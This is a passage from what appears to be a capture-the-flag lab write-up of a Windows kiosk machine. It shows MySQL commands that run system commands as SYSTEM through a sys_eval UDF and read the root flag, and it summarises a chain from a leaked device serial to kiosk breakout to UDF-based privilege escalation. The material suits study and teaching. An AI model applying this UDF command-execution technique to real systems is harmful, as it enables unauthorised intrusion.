

### 5.4 Root flag

```
C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "SELECT sys_eval('whoami');"
> nt authority\system

C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "SELECT sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt');"
> 4882542bb89ad3003e07c8e10aff2e04
```



`sys_eval()` through the UDF gives arbitrary command execution as `nt authority\system`.

## 6. Chain Summary

| Stage | Weakness |
|---|---|
| DeviceHub | Unauthenticated `/api/status` leaks the device serial number |
| Login | Default device password equals the serial number |
| Dashboard | Real Windows credentials (`KioskUser`) exposed client-side in the device panel |
| Kiosk | Forcing a scanner error (powered off via DeviceHub) exposes a link → spawns a browser → Ctrl+O → native file picker → `cmd.exe` |
| Local enum | Kiosk app source on disk reveals the MySQL connection string |
| Privesc | A world-readable scheduled script (`refresh-dates.bat`) leaks the MySQL root password in plaintext |
| MySQL | Writable plugin directory allows a UDF DLL upload, bypassing the SQL file-write restriction |
| Result | `sys_eval()` through the UDF gives code execution as `nt authority\system` |
